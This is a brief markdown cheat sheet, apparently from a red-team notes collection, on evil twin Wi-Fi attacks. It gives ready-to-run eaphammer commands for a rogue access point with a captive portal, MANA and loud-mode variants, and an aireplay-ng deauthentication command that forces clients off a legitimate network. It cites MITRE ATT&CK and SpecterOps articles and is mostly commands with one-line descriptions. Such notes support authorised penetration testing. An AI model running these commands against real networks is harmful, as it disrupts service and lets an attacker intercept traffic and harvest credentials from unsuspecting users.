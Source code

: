 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Evil Twin
## References
* MITRE ATT&CK: Rogue WiFi access points -<br />[https://attack.mitre.org/techniques/T1465/](https://attack.mitre.org/techniques/T1465/) 
## eaphammer

Evil twin tool by s0lst1c3 from SpecterOps
* part one:
    - https://posts.specterops.io/modern-wireless-attacks-pt-i-basic-rogue-ap-theory-evil-twin-and-karma-attacks-35a8571550ee
* part two
    - https://posts.specterops.io/modern-wireless-attacks-pt-ii-mana-and-known-beacon-attacks-97a359d385f9
* part three
    - https://posts.specterops.io/modern-wireless-tradecraft-pt-iii-management-frame-access-control-lists-mfacls-22ca7f314a38

### Forced roaming (enticement)
We provide a superior signal than the target access point, which entices a client device to roam to our AP

```bash
./eaphammer -i wlan0 --essid EvilCorpWiFi --captive-portal
```
### Forced roaming (coercion)
We block access to the target access point using deauthentication packets, jamming, or some other form of denial-of-service (DoS) attack. This coerces any client devices connected to the AP to roam to our rogue access point.

```bash
# start eaphammer
./eaphammer -i wlan0 --essid EvilCorpWiFi --captive-portal
# deauth client
aireplay-ng -0 0 -a de:ad:be:ef:13:37
```

### MANA Attack
The new KARMA

```bash
./eaphammer -i wlan0 --essid EvilCorpWiFi --cloaking full --captive-portal --mana --mac-whitelist whitelist.txt
```

Loud mode (beacons with all probe requests from all devices).  "By doing this, loud mode attacks allow an adversary to target a relatively secure device by exploiting the bad probing behavior of a second device"

```bash
./eaphammer -i wlan0 --essid EvilCorpWiFi --mana --loud
```